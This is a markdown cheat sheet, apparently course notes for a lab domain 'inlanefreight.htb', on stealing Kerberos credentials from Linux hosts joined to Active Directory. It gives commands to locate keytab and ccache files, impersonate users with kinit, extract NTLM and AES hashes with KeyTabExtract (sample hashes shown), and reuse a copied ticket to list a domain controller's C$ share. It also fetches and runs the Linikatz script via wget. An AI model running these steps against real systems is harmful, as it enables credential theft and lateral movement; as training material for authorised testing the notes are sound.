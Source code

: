 # Content 
- [Identifying Linux and Active Directory Integration](#identifying-linux-and-active-directory-integration)
  - [realm - Check If Linux Machine is Domain Joined](#realm---check-if-linux-machine-is-domain-joined)
  - [command line - Check if Linux Machine is Domain Joined](#command-line---check-if-linux-machine-is-domain-joined) 
- [Finding Kerberos Tickets in Linux](#finding-kerberos-tickets-in-linux)
  - [Finding Keytab Files](#finding-keytab-files)
  - [Finding ccache Files](#finding-ccache-files)
- [Abusing KeyTab Files](#abusing-keytab-files)
- [Abusing Keytab ccache](#abusing-keytab-ccache)
- [Linikatz](#linikatz)


## Identifying Linux and Active Directory Integration

### realm - Check If Linux Machine is Domain Joined
```
realm list
```

### command line - Check if Linux Machine is Domain Joined
we can also look for other tools used to integrate Linux with Active Directory such as `sssd` or `winbind`. 

#### check whether the Linux server is integrated with AD using PS Command
```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ ps -ef | grep -i "winbind\|sssd"
root     29912     1  0  2017 ?        00:19:09 /usr/sbin/sssd -f -D
root        2141    2140  0 Sep29 ?        00:00:08 /usr/libexec/sssd/sssd_be --domain inlanefreight.htb --uid 0 --gid 0 --logger=files

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ ps -ef | grep -i "winbind\|sssd"
root       676 21055  0  2017 ?        00:00:22 winbindd
```
#### Check whether the Linux server is integrated with AD using id Command
```powershell
$ id daygeek
uid=1918901106(daygeek) gid=1918900513(domain users) groups=1918900513(domain users)
```
#### check whether the Linux server is integrated with AD using nsswitch.conf file
```powershell
## You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files sss
shadow:         files sss

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:     files [SUCCESS=return] winbind

# You might get the output similer to below if the system is integrated with AD using ldap service.
$ cat /etc/nsswitch.conf | grep -i "sss\|winbind\|ldap"

passwd:         files ldap
shadow:         files ldap
```

#### check whether the Linux server is integrated with AD using system-auth file

```powershell
# You might get the output similar to below if the system is integrated with AD using SSSD service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_sss.so use_first_pass

# You might get the output similar to below if the system is integrated with AD using winbind service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_winbind.so cached_login use_first_pass

# You might get the output similar to below if the system is integrated with AD using ldap service.
$ cat /etc/pam.d/system-auth  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
# or
$ cat /etc/pam.d/system-auth-ac  | grep -i "pam_sss.so\|pam_winbind.so\|pam_ldap.so"
auth        sufficient    pam_ldap.so cached_login use_first_pass

```


## Finding Kerberos Tickets in Linux

### Finding Keytab Files
- A keytab is a file containing pairs of Kerberos principals and encrypted keys (which are derived from the Kerberos password).
- You can use a keytab file to authenticate to various remote systems using Kerberos without entering a password.
- Keytab files can be created on one computer and copied for use on other computers because they are not restricted to the systems on which they were initially created.
 
#### Using Find to Search for Files with Keytab in the Name
- The ticket is represented as a keytab file located by default at /etc/krb5.keytab and can only be read by the root user.
```powershell
$ find / -name *keytab* -ls 2>/dev/null

   131610      4 -rw-------   1 root     root         1348 Oct  4 16:26 /etc/krb5.keytab
   262169      4 -rw-rw-rw-   1 root     root          216 Oct 12 15:13 /opt/specialfiles/carlos.keytab
```
#### Identifying Keytab Files in Cronjobs
- we notice the use of kinit, which means that Kerberos is in use. kinit allows interaction with Kerberos, and its function is to request the user's TGT and store this ticket in the cache (ccache file). 
- We can use kinit to import a keytab into our session and act as the user.

```powershell
$ crontab -l

kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
smbclient //dc01.inlanefreight.htb/svc_workstations -c 'ls'  -k -no-pass > /home/carlos@inlanefreight.htb/script-test-results.txt
```


### Finding ccache Files
- Linux machines store Kerberos tickets as ccache files in the `/tmp` directory.
- By default, the location of the Kerberos ticket is stored in the environment variable `KRB5CCNAME`.
- `KRB5CCNAME` variable can identify if Kerberos tickets are being used or if the default location for storing Kerberos tickets is changed.
- These ccache files are protected by reading and write permissions, but a user with elevated privileges or root privileges could easily gain access to these tickets

#### Reviewing Environment Variables for ccache Files.
```powershell
$ env | grep -i krb5

KRB5CCNAME=FILE:/tmp/krb5cc_647402606_qd2Pfh
```

#### Searching for ccache Files in /tmp
```
$ ls -la /tmp

-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

## Abusing KeyTab Files
- The first thing we can do is impersonate a user using `kinit`.
- To use a keytab file, we need to know which user it was created for using `klist`
### Listing keytab File Information
```powershell
$ klist -k -t 

/opt/specialfiles/carlos.keytab 
Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

### Impersonating a User with a keytab
Note: To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable KRB5CCNAME.
```powershell
$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
$ smbclient //dc01/carlos -k -c ls
```

### Keytab Extract
We can attempt to crack the account's password by extracting the hashes from the keytab file using [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). 
```powershell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
- With the NTLM hash, we can perform a Pass the Hash attack. 
- With the AES256 or AES128 hash, we can forge our tickets using Rubeus PtT.
- or attempt to crack the hashes to obtain the plaintext password.


## Abusing Keytab ccache
- klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work.
- ccache files are temporary. They may change or expire if the user no longer uses them or during login and logout operations.
```powershell

env | grep -i krb5

ls -la /tmp


cp /tmp/krb5cc_647401106_I8I133 .

export KRB5CCNAME=/root/krb5cc_647401106_I8I133

klist

smbclient //dc01/C$ -k -c ls -no-pass
```

## Linikatz
- [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. 
- In other words, Linikatz brings a similar principle to Mimikatz to UNIX environments.

```powershell
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```


